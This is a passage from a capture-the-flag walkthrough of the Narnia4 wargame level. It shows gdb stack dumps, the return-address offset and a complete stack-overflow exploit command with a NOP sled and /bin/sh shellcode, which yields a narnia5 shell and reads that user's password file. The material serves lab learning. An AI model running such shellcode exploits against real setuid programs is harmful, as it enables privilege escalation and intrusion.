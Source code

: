     Breakpoint 1, 0x080491fe in main ()
    (gdb) x/96wx $esp 
    0xffffd09c:	0xffffd0a4	0xffffd3f3	0x41414141	0x41414141
    0xffffd0ac:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd0bc:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd0cc:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd0dc:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd0ec:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd0fc:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd10c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd11c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd12c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd13c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd14c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd15c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd16c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd17c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd18c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd19c:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd1ac:	0x41414141	0x41414141	0x41414141	0xff004141
    0xffffd1bc:	0xffffd1d0	0xf7fade34	0x0804909d	0x00000002
    0xffffd1cc:	0xffffd264	0xf7fade34	0xffffd270	0xf7ffcb60
    0xffffd1dc:	0x00000000	0x5222dd1b	0x19b9570b	0x00000000
    0xffffd1ec:	0x00000000	0x00000000	0xf7ffcb60	0x00000000
    0xffffd1fc:	0xf69f5200	0xf7ffda20	0xf7da1c46	0xf7fade34
    0xffffd20c:	0xf7da1d7c	0xf7fc9af4	0x0804b0d8	0x00000000
    (gdb) x $ebp 
    0xffffd1a8:	0x41414141
    (gdb) x $ebp + 4
    0xffffd1ac:	0x41414141
    (gdb) c
    Continuing.

    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()

one can clearly see that the return address can be overwritten by using attacker
input with the length of 278. After investigating a bit more, it's quite obvious
that we need 278 - 14 = 264 bytes until we hit the return address. So our payload
should look like:

    padding (264) + return address (4) = 268 bytes

The shellcode we are going to be using is 35 bytes long so our malicious input 
could look like this: 

    nops (200) + shellcode (35) + nops (31) + stack address (4) = 268 bytes

After running the program outside gdb like below 

    narnia4@gibson:~$ /narnia/narnia4 $(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xcc\xd0\xff\xff")
    $ id
    uid=14005(narnia5) gid=14004(narnia4) groups=14004(narnia4)
    $ whoami
    narnia5
    $ cat /etc/narnia_pass/narnia5